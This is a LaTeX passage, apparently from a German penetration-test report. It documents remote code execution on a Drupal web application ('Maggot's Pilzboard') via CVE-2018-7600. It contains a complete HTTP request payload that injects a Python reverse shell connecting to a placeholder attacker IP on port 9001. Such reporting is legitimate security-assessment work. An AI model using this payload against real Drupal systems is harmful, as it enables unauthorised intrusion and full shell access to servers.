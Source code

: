 \section{\makecvssbadge Remote Code Execution}

\subsection*{Proof of concept}
Ein bekannter Exploit mit der CVE-Nummer CVE-2018-7600 erlaubt die Ausführung von Code auf einem Drupal-System. Dadurch kann direkt eine Reverse Shell auf dem System erstellt werden. Der Python Code für diesen Exploit ist in \autoref{listing:appendix:pilzboard_RCE} gelistet. Der HTTP-Request des Exploits kann mit einem Tool wie Burpsuite abgefangen und die Payload angepasst werden. Die Playoad zum Starten einer Reverse Shell ist in \autoref{listing:pilzboard:reverseshell} aufgeführt. Ein Nachweis ist in \autoref{fig:05_pilzboard_proof} dargestellt.


\begin{listing}[!ht]
\begin{verbatim}
POST /routers/cancel-order.php HTTP/1.1 
Host: 10.0.68.122
[...]
'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': 'python3+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket. SOCK_STREAM)%3bs.connect(("<Angreifer-IP>",9001))%3bos.dup2(s.fileno(),0)%3b+os.dup2( s.fileno(),1)%3b+os.dup2(s.fileno(),2)%3bp%3dsubprocess.call(["/bin/sh","-i"])%3b''
\end{verbatim}
\caption{Reverse Shell}
\label{listing:pilzboard:reverseshell}
\end{listing}
\begin{figure}[!ht]
    \centering
    \includegraphics[width=\linewidth]{images/proofs/05_pilzboard_proof.png}
    \caption{Proof für die Webanwendung Maggot's Pilzboard}
    \label{fig:05_pilzboard_proof}
\end{figure}

